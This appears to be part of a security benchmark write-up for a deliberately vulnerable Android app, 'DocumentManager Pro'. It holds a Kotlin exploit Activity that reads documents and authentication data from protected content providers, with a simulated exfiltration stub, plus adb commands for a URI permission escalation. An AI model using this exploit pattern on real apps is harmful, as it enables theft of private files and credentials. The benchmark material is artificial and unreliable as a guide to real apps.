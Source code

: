 ```kotlin
class DataReceiver : Activity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        
        // Access protected content provider with granted permissions
        stealSensitiveDocuments()
        finish()
    }
    
    private fun stealSensitiveDocuments() {
        try {
            val documentsUri = Uri.parse("content://com.documentmanager.secure/documents")
            contentResolver.query(documentsUri, null, null, null, null)?.use { cursor ->
                while (cursor.moveToNext()) {
                    val filename = cursor.getString(cursor.getColumnIndex("filename"))
                    val sensitiveData = cursor.getString(cursor.getColumnIndex("sensitive_data"))
                    Log.d("STOLEN_DOCUMENT", "File: $filename")
                    Log.d("STOLEN_DATA", "Content: $sensitiveData")
                    
                    // Send stolen business data to attacker server
                    sendToServer(filename, sensitiveData)
                }
            }
            
            val usersUri = Uri.parse("content://com.documentmanager.secure/users")
            contentResolver.query(usersUri, null, null, null, null)?.use { cursor ->
                while (cursor.moveToNext()) {
                    val authData = cursor.getString(cursor.getColumnIndex("sensitive_data"))
                    Log.d("STOLEN_AUTH", "Authentication data: $authData")
                    sendToServer("auth_data", authData)
                }
            }
        } catch (e: Exception) {
            Log.e("EXPLOIT_ERROR", "Failed to steal data", e)
        }
    }
    
    private fun sendToServer(filename: String, content: String) {
        // Simulate sending to attacker server
        Log.d("DATA_EXFILTRATED", "Sending $filename to evil server")
    }
}
```
## Testing

```bash
# Install the vulnerable DocumentManager Pro app with URI permission escalation
adb install -r oxo-android-ben52.apk

# Launch DocumentManager Pro to initialize sensitive data
adb shell am start -n com.documentmanager/.MainActivity

# Test direct access to non-exported provider (should fail)
adb shell content query --uri content://com.documentmanager.secure/documents
adb shell content query --uri content://com.documentmanager.secure/users
adb shell content query --uri content://com.documentmanager.secure/sessions

# Test URI permission escalation exploitation via ADB
adb shell am start \
  -n com.documentmanager/.IntentProcessorActivity \
  --es workflow_intent '{"action":"android.intent.action.VIEW","data":"content://com.documentmanager.secure/documents","flags":["FLAG_GRANT_READ_URI_PERMISSION","FLAG_GRANT_WRITE_URI_PERMISSION"]}'
```